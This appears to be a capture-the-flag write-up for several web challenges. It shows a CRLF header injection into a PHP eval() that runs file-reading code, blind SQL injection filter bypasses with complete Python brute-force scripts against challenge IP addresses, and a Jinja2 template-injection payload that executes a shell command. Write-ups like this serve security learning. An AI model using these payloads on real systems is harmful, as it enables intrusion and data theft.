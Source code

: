 # CuaaS

Take a look to index.php and cleaner.php

You can see in cleaner.php file uses `eval()` funtion, maybe you need to use it to get flag.

```php
<?php

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){

die("<img src='https://imgur.com/x7BCUsr.png'>");

}


echo "<br>There your cleaned url: ".$_POST['host'];
echo "<br>Thank you For Using our Service!";


function tryandeval($value){
                echo "<br>How many you visited us ";
                eval($value);
        }


foreach (getallheaders() as $name => $value) {
	if ($name == "X-Visited-Before"){
		tryandeval($value);
	}}
?>

```

`eval()` function is only called when `X-Visited-Before` header is in request.

Note that `/cleaner.php` must be accessed from localhost (12.0.0.1). So we need to access it via index.php:

```php
function clean_and_send($url){
			$uncleanedURL = $url; // should be not used anymore
			$values = parse_url($url);
			$host = explode('/',$values['host']);
			$query = $host[0];
			$data = array('host'=>$query);
			echo 'data';
			$cleanerurl = "http://127.0.0.1:9000/cleaner.php";
   			$stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [
			'method' => 'POST',
			'header' => "X-Original-URL: $uncleanedURL",
			'content' => http_build_query($data)
			]
			]));
    			echo $stream;
    		echo $uncleanedURL;
			}
```

But we can see that there is no `X-Visited-Before` header in request (stream_context_create function) so we need to add it via $uncleanedURL variable (value of url parameter)
. Two headers will be separated by `\r\n`.

So payload for url is something like:

```
url=a%0d%0aX-Visisted-Before:payload;
```

List file in `/`:
```php
url=a%0d%0aX-Visited-Before:var_dump(scandir('/'));
```
![image](https://user-images.githubusercontent.com/83667873/163729406-bd5e981a-3abd-42a0-ba28-e899dac077cb.png)

Read flag:

```php
url=a%0d%0aX-Visited-Before:echo+file_get_contents('/maybethisistheflag');
```

![image](https://user-images.githubusercontent.com/83667873/163729434-9471e559-a49e-46fc-9962-c7741fda968e.png)

# Marvel Pick

After testing, I found that used database is sqlite and we can exploit sqli in character parameter:

![image](https://user-images.githubusercontent.com/83667873/163729601-651ef9c5-d43d-4874-95b1-44bcffd117e7.png)

Here is some filtered words/characters I found (maybe):

`or, select, substr, = , -`

When I enter `or` as input, it returns nothing, so I guess that It will replace `or` which `''`:

![image](https://user-images.githubusercontent.com/83667873/163729782-727a3641-7930-4340-acc6-c5311ace3612.png)

So I try to enter `oorr` and we get `or`. Perfectly, it only replace one time:

![image](https://user-images.githubusercontent.com/83667873/163729863-455970c2-5b06-4aed-b289-fd1deb928004.png)

![image](https://user-images.githubusercontent.com/83667873/163729912-0958284d-2b79-4f77-b9ef-58e7eb1c73c1.png)

Next, we just need to brute to find flag. 

But, note that only only one column return at a time, so I use `limit` to get tables and columns name:

Payload to find tables and columns name:

```
' oorr (unicode(subsubstrstr((seselectlect sql from sqlite_master limit 1,1),{i},1)) like {ord(s)}) union selselectect '1','1
```

![i1](https://user-images.githubusercontent.com/83667873/163730146-155b0741-e98a-4ead-a53e-b94a34a3c0a2.png)

Find flag:

```py
import string
import requests

url = 'http://34.126.83.114:1337/api.php'

partten = string.printable.replace('%','')

def genpayload(i,s):
	return f"' oorr (unicode(subsubstrstr((seselectlect value from flags),{i},1)) like {ord(s)}) union selselectect '1','1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```
![i2](https://user-images.githubusercontent.com/83667873/163730162-7e39f780-6751-4946-995c-a898aa472421.png)

# Marvel Pick Again:

This challenge is similar to Marval Pick, but this challenge is limited number of chars;

```py
import requests
import string

url = 'http://34.126.83.114:3390/api.php'
partten = string.printable.replace('%','').replace("'",'')

#Find number chars
for i in range(1,102):
	r = requests.get(url,params={'character':'a'*i})
	if 'No No NO' in r.text:
		print('[+] Found ',i)
		break
```
![image](https://user-images.githubusercontent.com/83667873/163730258-f3abc5fd-99e1-4a02-9938-f7117786bae3.png)

So we can not use payload use in Marvel Pick.

After a few tries, I found that only `or, select` in lowercase are filtered, It means that we can use  `oR, selEct` or something else:

![image](https://user-images.githubusercontent.com/83667873/163730382-6a84742a-b81b-4a8d-8068-c236927bf68d.png)

Too lazy to brute force, I try the same table name and column name with Marvel Pick, and It work :'))).

Script to find flag:

```py
import requests

url = 'http://34.126.83.114:3390/api.php'
partten = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{|}_\"#$&\'()*+,-./:;<=>?@[\\]^`{|}~"

def genpayload(i,s):
	return f"' oR (suBstr((sElect value from flags),{i},1) like '{s}') union selecT 1,'1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```

![image](https://user-images.githubusercontent.com/83667873/163730836-382502bb-8128-4fb4-837b-30ddc2f61993.png)

# EzChall + EzChall Again
*Note: I solve them after the CTF*

While the CTF is running, I stuck in comparing password. So I cann't solve these challenges. I solve it after read hint in discord.

Payload: 
```
payload={% set a=session.update({"a":lipsum['__glob' 'als__']['os']['popen']('head /flag')['re' 'ad']() })%}
```

## Updating...
